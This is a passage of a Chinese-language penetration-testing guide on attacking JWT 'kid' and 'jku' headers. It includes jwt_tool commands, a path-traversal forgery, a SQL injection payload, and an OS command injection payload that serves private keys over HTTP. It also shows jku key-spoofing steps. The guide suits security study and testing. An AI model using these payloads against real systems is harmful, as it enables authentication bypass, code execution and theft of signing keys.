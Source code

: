 ```bash
python3 jwt_tool.py JWT_HERE -X s
```

### Kid Issues Overview

一个可选的头部声明 `kid` 用于识别特定密钥，这在存在多个密钥用于令牌签名验证的环境中尤为重要。该声明有助于选择适当的密钥来验证令牌的签名。

#### Revealing Key through "kid"

当头部中存在 `kid` 声明时，建议在网络目录中搜索相应的文件或其变体。例如，如果指定了 `"kid":"key/12345"`，则应在网络根目录中搜索文件 _/key/12345_ 和 _/key/12345.pem_。

#### Path Traversal with "kid"

`kid` 声明也可能被利用来遍历文件系统，可能允许选择任意文件。可以通过更改 `kid` 值以针对特定文件或服务来测试连接性或执行服务器端请求伪造 (SSRF) 攻击。通过使用 `-T` 标志在 jwt_tool 中篡改 JWT 以更改 `kid` 值，同时保留原始签名，可以实现如下所示：
```bash
python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
```
通过针对具有可预测内容的文件，可以伪造有效的JWT。例如，Linux系统中的`/proc/sys/kernel/randomize_va_space`文件，已知包含值**2**，可以在`kid`参数中使用**2**作为JWT生成的对称密码。

#### 通过“kid”的SQL注入

如果`kid`声明的内容用于从数据库中获取密码，则可以通过修改`kid`有效负载来实现SQL注入。一个使用SQL注入来改变JWT签名过程的示例有效负载包括：

`non-existent-index' UNION SELECT 'ATTACKER';-- -`

此更改强制使用已知的秘密密钥`ATTACKER`进行JWT签名。

#### 通过“kid”的OS注入

`kid`参数指定的文件路径在命令执行上下文中使用的场景可能导致远程代码执行（RCE）漏洞。通过在`kid`参数中注入命令，可以暴露私钥。实现RCE和密钥暴露的示例有效负载是：

`/root/res/keys/secret7.key; cd /root/res/keys/ && python -m SimpleHTTPServer 1337&`

### x5u和jku

#### jku

jku代表**JWK Set URL**。\
如果令牌使用“**jku**”**头部**声明，则**检查提供的URL**。这应该指向一个包含JWKS文件的URL，该文件持有用于验证令牌的公钥。篡改令牌以将jku值指向您可以监控流量的Web服务。

首先，您需要创建一个新的证书，带有新的私钥和公钥。
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
然后您可以使用例如 [**jwt.io**](https://jwt.io) 来创建新的 JWT，使用 **创建的公钥和私钥，并将参数 jku 指向创建的证书。** 为了创建有效的 jku 证书，您可以下载原始证书并更改所需的参数。

您可以使用以下方法从公钥证书中获取参数 "e" 和 "n"：
```bash
from Crypto.PublicKey import RSA
fp = open("publickey.crt", "r")
key = RSA.importKey(fp.read())
fp.close()
print("n:", hex(key.n))
print("e:", hex(key.e))
```
#### x5u
